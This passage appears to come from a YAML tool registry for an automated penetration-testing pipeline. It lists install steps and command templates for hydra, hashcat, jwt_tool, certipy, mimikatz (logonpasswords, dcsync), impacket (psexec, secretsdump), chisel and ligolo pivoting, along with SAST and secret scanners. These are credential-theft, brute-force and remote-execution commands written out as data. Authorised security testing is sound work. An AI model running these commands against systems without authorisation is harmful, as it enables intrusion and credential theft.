  category: injection
  install: pip install tplmap
  binary: tplmap
  version_check: tplmap --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "tplmap -u '{target}?{params}' --output-dir {output}"
      flags: "--os-shell"
      output: "outputs/injection/tplmap/{target}/"
      parse: "grep -r 'Vulnerable\|SSTI\|Blind' {output}"
    blind:
      template: "tplmap -u '{target}?{params}' --blind --output-dir {output}"
      flags: "--blind --os-shell"
      output: "outputs/injection/tplmap/{target}-blind/"
      parse: "grep -r 'Vulnerable\|SSTI\|Blind' {output}"
  feeds_into: [chisel]
```

### NoSQLMap

```yaml
nosqlmap:
  category: injection
  install: pip install NoSQLMap
  binary: NoSQLMap
  version_check: NoSQLMap --version 2>&1 | head -1
  output_format: text
  command_variants:
    mongo:
      template: "NoSQLMap -u '{target}' --mongo -o {output}"
      flags: "--mongo --batch"
      output: "outputs/injection/nosqlmap/{target}-mongo.txt"
      parse: "cat {output}"
    web:
      template: "NoSQLMap -u '{target}' --web -o {output}"
      flags: "--web --batch"
      output: "outputs/injection/nosqlmap/{target}-web.txt"
      parse: "cat {output}"
  feeds_into: [sqlmap]
```

### hydra

```yaml
hydra:
  category: injection
  install: apt install hydra -y
  binary: hydra
  version_check: hydra --version 2>&1 | head -1
  output_format: text
  command_variants:
    ssh:
      template: "hydra -l {username} -P {password_list} ssh://{target} -o {output}"
      flags: "-t 4 -V -f"
      output: "outputs/injection/hydra/{target}-ssh.txt"
      parse: "grep 'login:\\|password:' {output}"
    rdp:
      template: "hydra -l {username} -P {password_list} rdp://{target} -o {output}"
      flags: "-t 4 -V -f"
      output: "outputs/injection/hydra/{target}-rdp.txt"
      parse: "grep 'login:\\|password:' {output}"
    ftp:
      template: "hydra -l {username} -P {password_list} ftp://{target} -o {output}"
      flags: "-t 4 -V -f"
      output: "outputs/injection/hydra/{target}-ftp.txt"
      parse: "grep 'login:\\|password:' {output}"
    smb:
      template: "hydra -l {username} -P {password_list} smb://{target} -o {output}"
      flags: "-t 4 -V -f"
      output: "outputs/injection/hydra/{target}-smb.txt"
      parse: "grep 'login:\\|password:' {output}"
    http-post:
      template: "hydra -l {username} -P {password_list} {target} http-post-form '{path}:{form_params}:{fail_string}' -o {output}"
      flags: "-t 4 -V -f"
      output: "outputs/injection/hydra/{target}-http-post.txt"
      parse: "grep 'login:\\|password:' {output}"
  feeds_into: [john, hashcat, impacket]
```

### john

```yaml
john:
  category: injection
  install: apt install john -y
  binary: john
  version_check: john --version 2>&1 | head -1
  output_format: text
  command_variants:
    single:
      template: "john --format={format} {hash_file} --output={output}"
      flags: "--pot=john.pot"
      output: "outputs/injection/john/{target}-cracked.txt"
      parse: "john --show --format={format} {hash_file} 2>/dev/null"
    wordlist:
      template: "john --format={format} --wordlist={wordlist} {hash_file} --output={output}"
      flags: "--pot=john.pot --fork=4"
      output: "outputs/injection/john/{target}-wordlist.txt"
      parse: "john --show --format={format} {hash_file} 2>/dev/null"
    rules:
      template: "john --format={format} --wordlist={wordlist} --rules {hash_file} --output={output}"
      flags: "--pot=john.pot --fork=4 --rules=best64"
      output: "outputs/injection/john/{target}-rules.txt"
      parse: "john --show --format={format} {hash_file} 2>/dev/null"
  feeds_into: [hashcat, impacket]
```

### hashcat

```yaml
hashcat:
  category: injection
  install: apt install hashcat -y
  binary: hashcat
  version_check: hashcat --version 2>&1 | head -1
  output_format: text
  command_variants:
    bruteforce:
      template: "hashcat -m {hash_type} -a 3 {hash_file} {mask} -o {output}"
      flags: "--potfile-path=hashcat.pot -O --force"
      output: "outputs/injection/hashcat/{target}-brute.txt"
      parse: "hashcat -m {hash_type} --show {hash_file} 2>/dev/null"
    wordlist:
      template: "hashcat -m {hash_type} -a 0 {hash_file} {wordlist} -o {output}"
      flags: "--potfile-path=hashcat.pot -O --force -r best64.rule"
      output: "outputs/injection/hashcat/{target}-wordlist.txt"
      parse: "hashcat -m {hash_type} --show {hash_file} 2>/dev/null"
    rules:
      template: "hashcat -m {hash_type} -a 0 {hash_file} {wordlist} -r {rules} -o {output}"
      flags: "--potfile-path=hashcat.pot -O --force -r {rules}"
      output: "outputs/injection/hashcat/{target}-rules.txt"
      parse: "hashcat -m {hash_type} --show {hash_file} 2>/dev/null"
  feeds_into: [impacket]
```

---

## 5. Authentication & Tokens

### jwt_tool

```yaml
jwt_tool:
  category: authentication-tokens
  install: git clone https://github.com/ticarpi/jwt_tool.git && pip install -r jwt_tool/requirements.txt
  binary: jwt_tool.py
  version_check: python3 jwt_tool.py --version 2>&1 | head -1
  output_format: text
  command_variants:
    alg-none:
      template: "python3 jwt_tool.py {token} -X a -o {output}"
      flags: "-X a"
      output: "outputs/auth/jwt_tool/{target}-alg-none.txt"
      parse: "grep 'Algorithm' {output}"
    key-confusion:
      template: "python3 jwt_tool.py {token} -X k -pk {public_key} -o {output}"
      flags: "-X k -pk"
      output: "outputs/auth/jwt_tool/{target}-key-confusion.txt"
      parse: "grep 'Verified\\|Signature' {output}"
    brute:
      template: "python3 jwt_tool.py {token} -C -d {wordlist} -o {output}"
      flags: "-C -d"
      output: "outputs/auth/jwt_tool/{target}-brute.txt"
      parse: "grep 'KEY FOUND\\|Secret' {output}"
    kid-inject:
      template: "python3 jwt_tool.py {token} -X i -I -P kid=file://{path} -o {output}"
      flags: "-X i -I -P"
      output: "outputs/auth/jwt_tool/{target}-kid.txt"
      parse: "grep 'Modified' {output}"
  feeds_into: []
```

### jwt-cracker

```yaml
jwt_cracker:
  category: authentication-tokens
  install: npm install -g jwt-cracker
  binary: jwt-cracker
  version_check: jwt-cracker 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "jwt-cracker {token} {wordlist} 2>&1 > {output}"
      flags: ""
      output: "outputs/auth/jwt-cracker/{target}-cracked.txt"
      parse: "grep 'SECRET FOUND\\|Secret:' {output}"
  feeds_into: []
```

### oauth2-proxy

```yaml
oauth2_proxy:
  category: authentication-tokens
  install: go install github.com/oauth2-proxy/oauth2-proxy/v7@latest
  binary: oauth2-proxy
  version_check: oauth2-proxy --version 2>&1 | head -1
  output_format: text
  command_variants:
    validate:
      template: "oauth2-proxy --provider={provider} --client-id={client_id} --client-secret={client_secret} --oidc-issuer-url={issuer} --test-config 2>&1 > {output}"
      flags: "--test-config"
      output: "outputs/auth/oauth2/{target}-validation.txt"
      parse: "grep 'valid\\|invalid\\|error' {output}"
  feeds_into: []
```

### certipy

```yaml
certipy:
  category: authentication-tokens
  install: pip install certipy-ad
  binary: certipy
  version_check: certipy --version 2>&1 | head -1
  output_format: text
  command_variants:
    find:
      template: "certipy find -u {user}@{domain} -p {password} -dc-ip {dc_ip} -o {output}"
      flags: "-vulnerable -stdout"
      output: "outputs/auth/certipy/{domain}-vuln-certs.txt"
      parse: "grep -A10 'Vulnerability\\|CA Name' {output}"
    req:
      template: "certipy req -u {user}@{domain} -p {password} -ca {ca} -template {template} -dc-ip {dc_ip} -o {output}"
      flags: ""
      output: "outputs/auth/certipy/{domain}-cert.pfx"
      parse: "openssl pkcs12 -in {output} -info -nodes 2>/dev/null | head -20"
    auth:
      template: "certipy auth -pfx {cert_file} -dc-ip {dc_ip} -u {user}@{domain} -o {output}"
      flags: ""
      output: "outputs/auth/certipy/{domain}-auth.txt"
      parse: "grep 'NT hash\\|Got hash\\|TGT' {output}"
  feeds_into: [impacket, bloodhound]
```

---

## 6. SAST / SCA / Secrets

### semgrep

```yaml
semgrep:
  category: sast-sca-secrets
  install: pip install semgrep
  binary: semgrep
  version_check: semgrep --version 2>&1 | head -1
  output_format: json
  command_variants:
    auto:
      template: "semgrep scan --config=auto {path} --output={output}"
      flags: "--json --error --quiet"
      output: "outputs/sast/semgrep/{target}-auto.json"
      parse: "cat {output} | jq '.results[] | {check: .check_id, path: .path, line: .start.line, message: .extra.message, severity: .extra.severity}'"
    owasp:
      template: "semgrep scan --config=p/owasp-top-ten {path} --output={output}"
      flags: "--json --error --quiet"
      output: "outputs/sast/semgrep/{target}-owasp.json"
      parse: "cat {output} | jq '.results[] | {check: .check_id, path: .path, line: .start.line, message: .extra.message}'"
    secrets:
      template: "semgrep scan --config=supply-chain --config=secrets {path} --output={output}"
      flags: "--json --error --quiet"
      output: "outputs/sast/semgrep/{target}-secrets.json"
      parse: "cat {output} | jq '.results[] | {check: .check_id, path: .path, line: .start.line, message: .extra.message}'"
    audit:
      template: "semgrep ci --config=auto {path} --output={output}"
      flags: "--json --quiet"
      output: "outputs/sast/semgrep/{target}-audit.json"
      parse: "cat {output} | jq '{results_count: .results|length, errors_count: .errors|length}'"
    ci:
      template: "semgrep ci --config=auto --json-output={output} {path}"
      flags: "--json --quiet --supply-chain"
      output: "outputs/sast/semgrep/{target}-ci.json"
      parse: "cat {output} | jq '.results[] | {check: .check_id, path: .path, line: .start.line}'"
  feeds_into: [bandit, trivy]
```

### bandit

```yaml
bandit:
  category: sast-sca-secrets
  install: pip install bandit
  binary: bandit
  version_check: bandit --version 2>&1 | head -1
  output_format: json
  command_variants:
    standard:
      template: "bandit -r {path} -f json -o {output}"
      flags: "-lll -q"
      output: "outputs/sast/bandit/{target}-bandit.json"
      parse: "cat {output} | jq '.results[] | {test: .test_id, severity: .issue_severity, confidence: .issue_confidence, line: .line_number, filename: .filename}'"
    ini:
      template: "bandit -r {path} -c {config} -f json -o {output}"
      flags: "-lll -q -c .bandit"
      output: "outputs/sast/bandit/{target}-config.json"
      parse: "cat {output} | jq '.results[] | {test: .test_id, severity: .issue_severity, confidence: .issue_confidence}'"
  feeds_into: [semgrep]
```

### CodeQL

```yaml
codeql:
  category: sast-sca-secrets
  install: "Download from https://github.com/github/codeql-cli-binaries"
  binary: codeql
  version_check: codeql --version 2>&1 | head -1
  output_format: json
  command_variants:
    create-db:
      template: "codeql database create {output} --language={language} --source-root={path}"
      flags: "--language={language}"
      output: "outputs/sast/codeql/{target}-db/"
      parse: "ls {output} | head -5"
    analyze:
      template: "codeql database analyze {db_path} {query_suite} --format=sarif-latest --output={output}"
      flags: "--format=sarif-latest --threads=4"
      output: "outputs/sast/codeql/{target}-results.sarif"
      parse: "cat {output} | jq '.runs[].results[] | {rule: .ruleId, message: .message.text, severity: .level, path: .locations[].physicalLocation.artifactLocation.uri}'"
    query:
      template: "codeql database analyze {db_path} {custom_query} --format=sarif-latest --output={output}"
      flags: "--format=sarif-latest"
      output: "outputs/sast/codeql/{target}-custom.sarif"
      parse: "cat {output} | jq '.runs[].results[] | {rule: .ruleId, message: .message.text}'"
  feeds_into: [semgrep]
```

### gitleaks

```yaml
gitleaks:
  category: sast-sca-secrets
  install: go install github.com/gitleaks/gitleaks@latest
  binary: gitleaks
  version_check: gitleaks --version 2>&1 | head -1
  output_format: json
  command_variants:
    scan:
      template: "gitleaks detect -s {path} -o {output}"
      flags: "-v"
      output: "outputs/secrets/gitleaks/{target}-leaks.json"
      parse: "cat {output} | jq '.[] | {rule: .RuleID, file: .File, line: .StartLine, secret: .Secret[:20]+\"...\", commit: .Commit}'"
    path:
      template: "gitleaks detect --no-git -s {path} -o {output}"
      flags: "--no-git -v"
      output: "outputs/secrets/gitleaks/{target}-no-git.json"
      parse: "cat {output} | jq '.[] | {rule: .RuleID, file: .File, line: .StartLine}'"
    repo:
      template: "gitleaks detect -s {git_url} -o {output}"
      flags: "-v --log-opts=--all"
      output: "outputs/secrets/gitleaks/{target}-repo.json"
      parse: "cat {output} | jq '.[] | {rule: .RuleID, commit: .Commit, author: .Author, email: .Email}'"
  feeds_into: [trufflehog, trivy]
```

### trufflehog

```yaml
trufflehog:
  category: sast-sca-secrets
  install: "go install github.com/trufflesecurity/trufflehog/v3@latest"
  binary: trufflehog
  version_check: trufflehog --version 2>&1 | head -1
  output_format: json
  command_variants:
    filesystem:
      template: "trufflehog filesystem {path} --json > {output}"
      flags: "--no-verification --concurrency=4"
      output: "outputs/secrets/trufflehog/{target}-fs.json"
      parse: "cat {output} | jq -s '.[] | {source: .SourceMetadata.Data.Filesystem.file, detector: .DetectorName, verified: .Verified}'"
    git:
      template: "trufflehog git {repo_url} --json > {output}"
      flags: "--since-commit --max-depth 50 --no-verification"
      output: "outputs/secrets/trufflehog/{target}-git.json"
      parse: "cat {output} | jq -s '.[] | {source: .SourceMetadata.Data.Git.file, commit: .SourceMetadata.Data.Git.commit, detector: .DetectorName, verified: .Verified}'"
    s3:
      template: "trufflehog s3 --bucket={bucket} --json > {output}"
      flags: "--no-verification"
      output: "outputs/secrets/trufflehog/{target}-s3.json"
      parse: "cat {output} | jq -s '.[] | {source: .SourceMetadata.Data.S3.Key, detector: .DetectorName, verified: .Verified}'"
    gcs:
      template: "trufflehog gcs --bucket={bucket} --json > {output}"
      flags: "--no-verification"
      output: "outputs/secrets/trufflehog/{target}-gcs.json"
      parse: "cat {output} | jq -s '.[] | {source: .SourceMetadata.Data.GCS.Key, detector: .DetectorName, verified: .Verified}'"
  feeds_into: [gitleaks, trivy]
```

### trivy

```yaml
trivy:
  category: sast-sca-secrets
  install: apt install trivy -y || (curl -sfL https://raw.githubusercontent.com/aquasecurity/trivy/main/contrib/install.sh | sh)
  binary: trivy
  version_check: trivy --version 2>&1 | head -1
  output_format: json
  command_variants:
    fs:
      template: "trivy fs --format json --output {output} {path}"
      flags: "--severity CRITICAL,HIGH,MEDIUM --scanners vuln,secret,misconfig"
      output: "outputs/sast/trivy/{target}-fs.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, type: .Type, vulnerabilities: [.Vulnerabilities[]? | {id: .VulnerabilityID, severity: .Severity, pkg: .PkgName}]}'"
    repo:
      template: "trivy repo --format json --output {output} {repo_url}"
      flags: "--severity CRITICAL,HIGH --scanners vuln,secret,misconfig"
      output: "outputs/sast/trivy/{target}-repo.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, vulnerabilities: [.Vulnerabilities[]? | {id: .VulnerabilityID, severity: .Severity}]}'"
    image:
      template: "trivy image --format json --output {output} {image}"
      flags: "--severity CRITICAL,HIGH,MEDIUM"
      output: "outputs/sast/trivy/{target}-image.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, vulnerabilities: [.Vulnerabilities[]? | {id: .VulnerabilityID, severity: .Severity, pkg: .PkgName}]}'"
    sbom:
      template: "trivy sbom --format json --output {output} {sbom_file}"
      flags: "--severity CRITICAL,HIGH"
      output: "outputs/sast/trivy/{target}-sbom.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, vulnerabilities: [.Vulnerabilities[]? | {id: .VulnerabilityID, severity: .Severity}]}'"
    config:
      template: "trivy config --format json --output {output} {path}"
      flags: "--severity CRITICAL,HIGH"
      output: "outputs/sast/trivy/{target}-config.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, misconfigurations: [.Misconfigurations[]? | {id: .ID, severity: .Severity, title: .Title}]}'"
    secret:
      template: "trivy fs --scanners secret --format json --output {output} {path}"
      flags: "--severity CRITICAL,HIGH --scanners secret"
      output: "outputs/sast/trivy/{target}-secrets.json"
      parse: "cat {output} | jq '.Results[] | {target: .Target, secrets: [.Secrets[]? | {rule: .RuleID, severity: .Severity}]}'"
  feeds_into: [grype, snyk]
```

### grype

```yaml
grype:
  category: sast-sca-secrets
  install: "curl -sSfL https://raw.githubusercontent.com/anchore/grype/main/install.sh | sh -s -- -b /usr/local/bin"
  binary: grype
  version_check: grype --version 2>&1 | head -1
  output_format: json
  command_variants:
    dir:
      template: "grype {path} -o json > {output}"
      flags: "--only-fixed"
      output: "outputs/sast/grype/{target}-dir.json"
      parse: "cat {output} | jq '.matches[] | {vuln: .vulnerability.id, severity: .vulnerability.severity, pkg: .artifact.name, version: .artifact.version, fix: .vulnerability.fix.versions}'"
    image:
      template: "grype {image} -o json > {output}"
      flags: "--only-fixed"
      output: "outputs/sast/grype/{target}-image.json"
      parse: "cat {output} | jq '.matches[] | {vuln: .vulnerability.id, severity: .vulnerability.severity, pkg: .artifact.name}'"
  feeds_into: [trivy, snyk]
```

### snyk

```yaml
snyk:
  category: sast-sca-secrets
  install: npm install -g snyk
  binary: snyk
  version_check: snyk --version 2>&1 | head -1
  output_format: json
  command_variants:
    test:
      template: "snyk test --json-file-output={output} {path}"
      flags: "--all-projects --severity-threshold=high"
      output: "outputs/sast/snyk/{target}-test.json"
      parse: "cat {output} | jq '.vulnerabilities[]? | {id: .id, severity: .severity, package: .packageName, title: .title, cvss: .cvssScore}'"
    monitor:
      template: "snyk monitor --json-file-output={output} {path}"
      flags: "--all-projects --org={org_id}"
      output: "outputs/sast/snyk/{target}-monitor.json"
      parse: "cat {output} | jq '{path: .path, project: .projectName}'"
    code:
      template: "snyk code test --json-file-output={output} {path}"
      flags: "--severity-threshold=high"
      output: "outputs/sast/snyk/{target}-code.json"
      parse: "cat {output} | jq '.runs[].results[] | {rule: .ruleId, message: .message.text, severity: .level}'"
  feeds_into: [trivy]
```

---

## 7. Post-Exploitation

### linpeas

```yaml
linpeas:
  category: post-exploitation
  install: "curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o /usr/local/bin/linpeas.sh && chmod +x /usr/local/bin/linpeas.sh"
  binary: linpeas.sh
  version_check: bash /usr/local/bin/linpeas.sh --version 2>&1 | head -1
  output_format: text
  command_variants:
    standard:
      template: "bash linpeas.sh -a > {output}"
      flags: "-a"
      output: "outputs/post-exploitation/linpeas/{target}-enum.txt"
      parse: "grep -E '\\[+]|RED|YELLOW|CVE|Vulnerable|Privilege' {output}"
    custom:
      template: "bash linpeas.sh -s -e {custom_scripts} > {output}"
      flags: "-s -e"
      output: "outputs/post-exploitation/linpeas/{target}-custom.txt"
      parse: "grep -E '\\[+]|RED|YELLOW|Vulnerable' {output}"
  feeds_into: [chisel, impacket]
```

### winpeas

```yaml
winpeas:
  category: post-exploitation
  install: "curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany.exe -o /usr/local/bin/winpeas.exe"
  binary: winpeas.exe
  version_check: "wine winpeas.exe --version 2>&1 | head -1 || echo 'Run on target Windows host'"
  output_format: text
  command_variants:
    standard:
      template: "winpeas.exe > {output}"
      flags: ""
      output: "outputs/post-exploitation/winpeas/{target}-enum.txt"
      parse: "grep -E '\\[+]|RED|YELLOW|CVE|Vulnerable|Privilege' {output}"
    fast:
      template: "winpeas.exe -fast > {output}"
      flags: "-fast"
      output: "outputs/post-exploitation/winpeas/{target}-fast.txt"
      parse: "grep -E '\\[+]|CVE|Vulnerable' {output}"
  feeds_into: [chisel, impacket]
```

### chisel

```yaml
chisel:
  category: post-exploitation
  install: "go install github.com/jpillora/chisel@latest"
  binary: chisel
  version_check: chisel --version 2>&1 | head -1
  output_format: text
  command_variants:
    server:
      template: "chisel server -p {port} --reverse > {output} 2>&1 &"
      flags: "-p 8080 --reverse --socks5"
      output: "outputs/post-exploitation/chisel/{target}-server.log"
      parse: "grep 'Listening\\|SOCKS' {output}"
    client:
      template: "chisel client {server_ip}:{port} R:{local_port}:{forward_target}:{forward_port} > {output} 2>&1 &"
      flags: ""
      output: "outputs/post-exploitation/chisel/{target}-client.log"
      parse: "grep 'Connected\\|Proxy' {output}"
    socks:
      template: "chisel client {server_ip}:{port} R:socks > {output} 2>&1 &"
      flags: "R:socks"
      output: "outputs/post-exploitation/chisel/{target}-socks.log"
      parse: "grep 'Connected' {output}"
  feeds_into: [nmap-nse, ligolo-ng]
```

### ligolo-ng

```yaml
ligolo_ng:
  category: post-exploitation
  install: "go install github.com/nicocha30/ligolo-ng/cmd/{proxy,agent}@latest"
  binary: ligolo-proxy
  version_check: ligolo-proxy --version 2>&1 | head -1
  output_format: text
  command_variants:
    proxy:
      template: "ligolo-proxy -laddr 0.0.0.0:{port} -self-cert > {output} 2>&1 &"
      flags: "-laddr 0.0.0.0:11601 -self-cert"
      output: "outputs/post-exploitation/ligolo/{target}-proxy.log"
      parse: "grep 'listening\\|TUN' {output}"
    agent:
      template: "ligolo-agent -connect {server_ip}:{port} -ignore-cert > {output} 2>&1 &"
      flags: "-ignore-cert"
      output: "outputs/post-exploitation/ligolo/{target}-agent.log"
      parse: "grep 'Connected\\|Joined' {output}"
    relay:
      template: "ligolo-proxy -laddr 0.0.0.0:{port} -relay {relay_target}:{relay_port} > {output} 2>&1 &"
      flags: "-laddr 0.0.0.0:11601 -relay"
      output: "outputs/post-exploitation/ligolo/{target}-relay.log"
      parse: "grep 'listening\\|Relay' {output}"
  feeds_into: [nmap-nse]
```

### nmap-nse

```yaml
nmap_nse:
  category: post-exploitation
  install: apt install nmap -y (nse scripts included)
  binary: nmap
  version_check: nmap --version 2>&1 | grep NSE
  output_format: xml
  command_variants:
    smb-enum:
      template: "nmap {target} --script smb-enum-* -p 445 -oA {output}"
      flags: "--script smb-enum-* -p 445 -T4"
      output: "outputs/post-exploitation/nmap-nse/{target}-smb"
      parse: "grep -E 'smb-enum|USER|SHARE|GROUP|OS' {output}.nmap"
    ad-enum:
      template: "nmap {target} --script ldap-rootdse,msrpc-enum,smb-ls -oA {output}"
      flags: "--script ldap-rootdse,msrpc-enum,smb-ls -p 389,445,135 -T4"
      output: "outputs/post-exploitation/nmap-nse/{target}-ad"
      parse: "grep -E 'rootDSE|domain|forest|DN' {output}.nmap"
    brute:
      template: "nmap {target} --script brute -oA {output}"
      flags: "--script brute -T4"
      output: "outputs/post-exploitation/nmap-nse/{target}-brute"
      parse: "grep -E 'Valid|password|account' {output}.nmap"
    vuln:
      template: "nmap {target} --script-vuln -oA {output}"
      flags: "--script vuln -T4"
      output: "outputs/post-exploitation/nmap-nse/{target}-vuln"
      parse: "grep -A5 'VULNERABLE' {output}.nmap"
  feeds_into: [bloodhound, impacket]
```

### bloodhound

```yaml
bloodhound:
  category: post-exploitation
  install: pip install bloodhound
  binary: bloodhound-python
  version_check: bloodhound-python --version 2>&1 | head -1
  output_format: json
  command_variants:
    collect:
      template: "bloodhound-python -u {user}@{domain} -p {password} -dc {dc_ip} -ns {dns_ip} -d {domain} --zip -o {output}"
      flags: "--zip -c All"
      output: "outputs/post-exploitation/bloodhound/{domain}/"
      parse: "ls {output}*.zip"
    ldap:
      template: "bloodhound-python -u {user}@{domain} -p {password} -dc {dc_ip} -ns {dns_ip} -d {domain} --zip -o {output} --collectionmethod LDAP"
      flags: "--zip --collectionmethod LDAP"
      output: "outputs/post-exploitation/bloodhound/{domain}-ldap/"
      parse: "ls {output}*.zip"
    kerberos:
      template: "bloodhound-python -u {user}@{domain} -p {password} -dc {dc_ip} -k -ns {dns_ip} -d {domain} --zip -o {output}"
      flags: "--zip -k --collectionmethod All"
      output: "outputs/post-exploitation/bloodhound/{domain}-kerb/"
      parse: "ls {output}*.zip"
  feeds_into: [certipy, impacket]
```

### mimikatz

```yaml
mimikatz:
  category: post-exploitation
  install: "Download from https://github.com/gentilkiwi/mimikatz/releases"
  binary: mimikatz.exe
  version_check: "wine mimikatz.exe version 2>&1 | head -1 || echo 'Run on target Windows host'"
  output_format: text
  command_variants:
    sekurlsa:
      template: "mimikatz.exe \"privilege::debug\" \"sekurlsa::logonpasswords\" \"exit\" > {output}"
      flags: ""
      output: "outputs/post-exploitation/mimikatz/{target}-logonpasswords.txt"
      parse: "grep -E 'Username|Domain|Password|NTLM|SHA1' {output} | grep -v '\\-\\-\\-\\-'"
    sam:
      template: "mimikatz.exe \"privilege::debug\" \"lsadump::sam\" \"exit\" > {output}"
      flags: ""
      output: "outputs/post-exploitation/mimikatz/{target}-sam.txt"
      parse: "grep -E 'RID|User|NTLM' {output}"
    lsadump:
      template: "mimikatz.exe \"privilege::debug\" \"lsadump::cache\" \"lsadump::secrets\" \"exit\" > {output}"
      flags: ""
      output: "outputs/post-exploitation/mimikatz/{target}-secrets.txt"
      parse: "grep -E 'Username|Domain|Password|NTLM|Secret' {output}"
    dcsync:
      template: "mimikatz.exe \"lsadump::dcsync /domain:{domain} /user:{user}\" \"exit\" > {output}"
      flags: ""
      output: "outputs/post-exploitation/mimikatz/{target}-dcsync.txt"
      parse: "grep -E 'Username|Domain|NTLM|Hash' {output}"
  feeds_into: [impacket, bloodhound]
```

### impacket

```yaml
impacket:
  category: post-exploitation
  install: pip install impacket
  binary: impacket-{script}
  version_check: impacket-smbexec -h 2>&1 | head -1
  output_format: text
  command_variants:
    smbexec:
      template: "impacket-smbexec {domain}/{user}:{password}@{target} -o {output}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{target}-smbexec.txt"
      parse: "grep -E '\\$ |C:\\\\' {output}"
    wmiexec:
      template: "impacket-wmiexec {domain}/{user}:{password}@{target} -o {output}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{target}-wmiexec.txt"
      parse: "grep -E '\\$ |C:\\\\' {output}"
    psexec:
      template: "impacket-psexec {domain}/{user}:{password}@{target} -o {output}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{target}-psexec.txt"
      parse: "grep -E '\\$ |C:\\\\' {output}"
    secretsdump:
      template: "impacket-secretsdump {domain}/{user}:{password}@{target} -o {output}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{target}-secrets.txt"
      parse: "grep -E '\\$|NTLM|Administrator|krbtgt' {output}"
    ticket_converter:
      template: "impacket-ticketConverter {input_kirbi} {output}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{target}-ticket.ccache"
      parse: "echo 'Ticket converted'"
    getTGT:
      template: "impacket-getTGT {domain}/{user}:{password} -dc-ip {dc_ip}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{user}.ccache"
      parse: "ls -la {output}"
    getST:
      template: "impacket-getST {domain}/{user}:{password} -spn {service}/{target} -dc-ip {dc_ip}"
      flags: ""
      output: "outputs/post-exploitation/impacket/{user}-st.ccache"
      parse: "ls -la {output}"
  feeds_into: [bloodhound, chisel]
```

---

## 8. Browser & Proxy

### playwright

```yaml
playwright:
  category: browser-proxy
  install: pip install playwright && playwright install chromium
  binary: playwright
  version_check: playwright --version 2>&1 | head -1
  output_format: text
  command_variants:
    script:
      template: "playwright run {script} --output {output}"
      flags: "--browser chromium --headed"
      output: "outputs/browser/playwright/{target}-screenshots/"
      parse: "ls {output}*.png"
    codegen:
      template: "playwright codegen {target} --output {output}"
      flags: "--output {output}.py"
      output: "outputs/browser/playwright/{target}-script.py"
      parse: "wc -l {output}"
    shell:
      template: "playwright shell --browser chromium --output-dir {output}"
      flags: "--remote-debugging-port=9222"
      output: "outputs/browser/playwright/{target}/"
      parse: "ls {output}"
  feeds_into: [mitmproxy]
```

### mitmproxy

```yaml
mitmproxy:
  category: browser-proxy
  install: pip install mitmproxy
  binary: mitmproxy
  version_check: mitmproxy --version 2>&1 | head -1
  output_format: text
  command_variants:
    proxy:
      template: "mitmproxy --listen-port {port} --mode regular --set block_global=false -w {output}"
      flags: "--listen-port 8080 --mode regular --set block_global=false"
      output: "outputs/browser/mitmproxy/{target}-flows/"
      parse: "mitmproxy --read-flows {output} --no-server 2>&1 | head -50"
    intercept:
      template: "mitmproxy --listen-port {port} --set intercept={filter} -w {output}"
      flags: "--listen-port 8080 --set intercept='~u {target}'"
      output: "outputs/browser/mitmproxy/{target}-intercepted/"
      parse: "mitmdump --read-flows {output} 2>/dev/null | grep -E 'GET|POST|PUT|DELETE'"
    replay:
      template: "mitmproxy --client-replay {flow_file} --server-replay {flow_file} -w {output}"
      flags: "--client-replay --server-replay --server-replay-ignore-content"
      output: "outputs/browser/mitmproxy/{target}-replay/"
      parse: "mitmdump --read-flows {output} 2>/dev/null | grep -E 'GET|POST|PUT|DELETE|response'"
  feeds_into: [burpsuite, katana, nuclei]
```

### caido

```yaml
caido:
  category: browser-proxy
  install: "Download from https://caido.io/download"
  binary: caido
  version_check: caido --version 2>&1 | head -1
  output_format: text
  command_variants:
    start:
      template: "caido --headless --port {port} --output-dir {output}"
      flags: "--headless"
      output: "outputs/browser/caido/{target}/"
      parse: "ls {output}"
    intercept:
      template: "caido-cli intercept --port {port} --output {output}"
      flags: "--port 8080"
      output: "outputs/browser/caido/{target}-flows.json"
      parse: "cat {output} | jq '.requests[] | {method: .method, url: .url, status: .status}'"
  feeds_into: [burpsuite, nuclei]
```

### burpsuite

```yaml
burpsuite:
  category: browser-proxy
  install: "Download from https://portswigger.net/burp/releases"
  binary: burpsuite
  version_check: burpsuite --version 2>&1 | head -1
  output_format: text
  command_variants:
    proxy:
      template: "burpsuite --collaborator-server --config-file={config} --project-file={output}"
      flags: "--collaborator-server --config-file default.json"
      output: "outputs/browser/burpsuite/{target}-project.burp"
      parse: "burpsuite --open-file {output} 2>/dev/null || echo 'Open in Burp Suite GUI'"
    headless:
      template: "java -jar burpsuite.jar --headless --project-file={output} --config-file={config}"
      flags: "--headless --user-config-file=burp-config.json"
      output: "outputs/browser/burpsuite/{target}.burp"
      parse: "ls -la {output}"
  feeds_into: [nuclei, sqlmap, dalfox]
```

---

## 9. Cloud & Infrastructure

### s3scanner

```yaml
s3scanner:
  category: cloud-infrastructure
  install: go install github.com/sa7mon/s3scanner@latest
  binary: s3scanner
  version_check: s3scanner --version 2>&1 | head -1
  output_format: text
  command_variants:
    list:
      template: "s3scanner --bucket {bucket} --output {output}"
      flags: "--verbose"
      output: "outputs/cloud/s3scanner/{bucket}-scan.txt"
      parse: "grep -E 'found|open|exists|public|private' {output}"
    file:
      template: "s3scanner --bucket-file {bucket_list} --output {output}"
      flags: "--verbose"
      output: "outputs/cloud/s3scanner/bulk-scan.txt"
      parse: "grep -E 'found|open|exists|public' {output}"
  feeds_into: [cloudfox, trivy]
```

### cloudfox

```yaml
cloudfox:
  category: cloud-infrastructure
  install: "go install github.com/BishopFox/cloudfox@latest"
  binary: cloudfox
  version_check: cloudfox --version 2>&1 | head -1
  output_format: text
  command_variants:
    env:
      template: "cloudfox aws -p {profile} env -o {output}"
      flags: "--regions us-east-1,us-west-2,eu-west-1"
